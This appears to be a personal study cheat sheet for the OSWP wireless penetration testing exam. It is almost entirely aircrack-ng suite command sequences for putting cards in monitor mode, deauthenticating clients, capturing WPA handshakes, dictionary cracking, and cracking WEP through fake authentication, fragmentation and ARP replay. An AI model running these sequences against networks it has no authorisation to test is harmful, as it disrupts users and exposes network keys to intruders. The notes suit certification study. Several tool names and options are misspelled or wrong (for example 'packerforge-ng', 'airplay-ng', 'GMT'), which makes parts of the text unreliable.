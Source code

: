 # oswp
oswp-prep

airmon-ng check
airmon-ng check kill

airmon-ng start <interface>
airmon-ng stop <interface>

iw dev <interface> info
iwconfig <interface>


airodump-ng -c <cahnnel_number> <interface>

airodump-ng -c <cahnnel_number> --bssid <mac_address_ap> <interface>
airodump-ng -c <cahnnel_number> -w <saved_file_name> --output-format csv,pcap <interface>

aireplay-ng 
              --deauth       --> -0
              --fakeauth     --> -1
              --interactive  --> -2
              --arpplay      --> -3
              --chopchop     --> -4
              --fragment     --> -5
              --caffe-latte  --> -6
              --cfrag        --> -7
              --migmade      --> -8
              --test         --> -9

aireplay-ng -9 <interface>
aireplay-ng -9 -e <wifi_name> -a <mac_address_ap> <interface>
aireplay-ng -9 -e <wifi_name> -a <mac_address_ap> -D <interface>

aireplay-ng -9 -i <interface1> <interface2>


aircrack-ng -S

airdecap-ng
airdecap-ng -b <mac_address_ap> <cap_file_name.cap> ---> cap_file_name_dec.cap


airgraph-ng (CAPR)
airgraph-ng -i <file.csv> -o capr.png -g CAPR
ristretto capr.png


4 way handsake 

AUTH 
    -> PSK
    -> GMT

airodump-ng -c <cahnnel_number> -w <file_name> --essid <wifi_name> --bssid <mac_address_ap> <interface>
aireplay-ng -0 1 -a <mac_address_ap> -c <client_mac_address> <interface>
aircrack-ng -w <wordlist_file> -e <wifi_name> -b <mac_address_ap> <captured_handsake_file>

airdecap-ng -b <mac_address_ap> -e <wifi_name> -p <password> <captured_file>

/usr/share/wordlist
/usr/share


JtR
Crunch
RsMangler


john --wordlist=<file> --rules --stdout | aircrack-ng -e <wifi_name> -w - <captured_file>

hashcat -m 2500
cap2hccapx


WEP Example
-----------

airmon-ng start <interface>

airodump-ng -c <channel_number> --bssid <mac_address_ap> <interface> -w <file_name>

aireplay_ng -1 0 -e <wifi_name> -a <mac_address_ap> -h <fake_client_mac_or_station> <interface>

aireplay-ng -5 -b <mac_address_ap> -h <fake_client_mac_or_station> <interface>

packerforge-ng -0 -a <mac_address_ap> -h <fake_client_mac_or_station> -I <ip> -k <ip_broadcast> -y fragment.xor -w <captured_file_name>

airplay-ng -2 -r <captured_file_name> <interface>

WEP Example 2
-------------

airmon-ng start <interface>

airodump-ng -c <channel_number> --bssid <mac_address_ap> <interface> -w <file_name>

aireplay_ng -1 0 -e <wifi_name> -a <mac_address_ap> -h <fake_client_mac_or_station> <interface>

aireplay_ng -1 0 -e <wifi_name> -y <file_xor> -h <fake_client_mac_or_station> <interface>

aireplay-ng --arpplay -b <mac_address_ap> -h <fake_client_mac_or_station> <interface>

aircrack-ng -0 <captured_file>


WPA Example 1
-------------
airmon-ng start <interface>

airodump-ng -c <channel_number> --bssid <mac_address_ap> <interface> -w <file_name>

aireplay-ng -0 1 -a <mac_address_ap> -c <client_mac_address> <interface>

aircrack-ng -0 -w <wordlist> <captured_file_name>

